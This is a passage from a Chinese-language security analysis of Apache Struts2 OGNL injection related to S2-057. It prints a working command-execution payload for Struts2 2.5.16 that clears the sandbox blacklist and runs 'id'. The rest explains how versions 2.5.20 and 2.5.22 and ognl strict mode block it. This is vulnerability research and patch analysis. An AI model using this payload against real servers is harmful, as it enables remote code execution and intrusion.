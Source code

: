到此漏洞原理的部分就结束了。下面说一下命令执行PoC的构造。

可回显PoC
------

在Struts2 `2.5.16`版本，直接使用S2-057的PoC便可，但最前面的`$`符号要改为`%`。同样是发送两次请求。

```php
%{
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#ct=#request['struts.valueStack'].context).
(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).
(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ou.setExcludedPackageNames('')).(#ou.setExcludedClasses('')).
(#ct.setMemberAccess(#dm)).
(#a=@java.lang.Runtime@getRuntime().exec('id')).
(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))
}
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b823e63567d5cc14b1e953aaf1b5422fd68c955c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b823e63567d5cc14b1e953aaf1b5422fd68c955c.png)

接着说一下为什么该命令执行PoC在Struts2 `2.5.20`版本中失效。

**1、Struts2 `2.5.20`的类和包名的黑名单扩充了**，如下：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5a28950871db550cf952e99cddcad91bd7036fca.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5a28950871db550cf952e99cddcad91bd7036fca.png)

其中增加了包名`com.opensymphony.xwork2.ognl`，导致无法通过`#request['struts.valueStack'].context`或`#attr['struts.valueStack'].context`来获取上下文对象。因为`OgnlRuntime#getFieldValue()`方法中有引入沙盒保护，会禁止黑名单里的类的对象去获取成员属性。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-480878715f78713f95fef65b85be6ead0f221aac.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-480878715f78713f95fef65b85be6ead0f221aac.png)

**2、`OgnlRuntime#getStaticField()`方法也引入了Struts2的沙盒保护**

Struts2 `2.5.16`版本所依赖的`ognl`库的版本为`3.1.15`，Struts2 `2.5.20`版本依赖的`ognl`库的版本为`3.1.21`。在`ognl-3.1.21`的类`OgnlRuntime#getStaticField()`中也引入了Struts2的沙盒进行保护，禁止黑名单类去获取静态属性，关键代码如下：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ae3efcf437d7b9bf5ed0cb60689624ce387489a9.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ae3efcf437d7b9bf5ed0cb60689624ce387489a9.png)

这将导致无法通过表达式`@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS`获取`OgnlContext`类的静态属性`DEFAULT_MEMBER_ACCESS`。

漏洞修复
----

Struts2 `2.5.22`版本并没有对漏洞点进行修复，而是在`2.5.20`版本的基础上再次扩充了类/包名黑名单。另外，还使用了更新版本的依赖库`ognl-3.1.26`，在该版本中，增加了`Strict`模式，如果使用该模式，`OgnlRuntime#invokeMethod()`方法就会校验当前调用的类，禁止常见危险的类调用方法。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0a92bc2912ef50ff78ea85ab4e06418107feae14.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0a92bc2912ef50ff78ea85ab4e06418107feae14.png)
